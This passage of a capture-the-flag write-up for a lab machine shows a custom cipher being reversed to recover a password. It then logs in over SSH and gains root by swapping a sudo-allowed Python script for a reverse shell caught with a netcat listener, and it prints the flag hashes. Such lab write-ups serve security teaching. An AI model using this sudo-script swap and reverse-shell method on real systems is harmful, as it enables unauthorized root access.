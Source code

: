 To do that with the CLI interface we provide `out.txt` as the input and
`check.txt` as the key so the resulting "encrypted" file gives us in fact the
clear text key `alexandrovich`.

Doing the same with the encrypted password and the real key we can find the
clear text of the password.

```
$ python SuperSecureCrypt.py -i out.txt -o out2.txt -k "$(cat check.txt)" -d
$ python SuperSecureCrypt.py -i passwordreminder.txt -o out2.txt -k "alexandrovich" -d
```

Robert password is `SecThruObsFTW`.

So now we can connect to ssh as robert.

```
$ ssh -v robert@10.10.10.168
...
robert@obscure:~$ cat user.txt
e4493782066b55fe2755708736ada2d7
```

### System Privilege Escalation : robert to root

**TL;DR**: `BetterSSH.py` command execution

It seems we can run a python script as root.

```
robert@obscure:~$ sudo -l
Matching Defaults entries for robert on obscure:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User robert may run the following commands on obscure:
    (ALL) NOPASSWD: /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
```

[Source code of `BetterSSH.py`](https://gist.github.com/S4CH/4cb408456318997fb62dc0ec1311c6a3#file-betterssh-py)

We can replace the script executed as root by a python reverse shell and execute it.

`robert@obscure:~$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py`

```
Γ₧£ nc -nlp 8888
root@obscure:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@obscure:~# cd /root
cd /root
root@obscure:/root# ls
ls
root.txt
root@obscure:/root# cat root.txt
cat root.txt
512fd4429f33a113a44d5acde23609e3
```
